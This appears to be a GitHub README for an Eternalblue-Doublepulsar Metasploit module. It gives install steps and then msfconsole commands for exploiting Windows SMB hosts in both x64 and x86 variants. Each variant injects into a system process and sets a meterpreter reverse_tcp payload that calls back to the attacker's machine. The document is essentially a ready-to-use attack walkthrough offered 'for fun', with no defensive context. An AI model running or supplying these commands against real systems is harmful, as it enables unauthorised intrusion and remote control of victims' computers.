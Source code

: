 # Eternalblue-Doublepulsar-Metasploit

# How to Install

- dpkg --add-architecture i386 && apt-get update -y && apt-get install wine32 -y
- git clone https://github.com/grglzrv/Eternalblue-Doublepulsar-Metasploit.git
- cd Eternalblue-Doublepulsar-Metasploit
- cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
* Note: Also copy 'deps' directory to /usr/share/metasploit-framework/modules/exploits/windows/smb
- mkdir -p /root/.wine/drive_c/

# How to use

- service postgresql start
- service postgresql enable
- msfconsole
- reload_all 
- use exploit/windows/smb/eternalblue_doublepulsar
- show options

 * For Windows x64 

-  RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or et PROCESSINJECT svchost.exe
 - set TARGETARCHITECTURE x64
 - set payload windows/x64/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
 
 * For Windows x86

 - set RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or et PROCESSINJECT explorer.exe
 - set TARGETARCHITECTURE x86
 - set payload windows/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
 
 # Have a Fun! :)
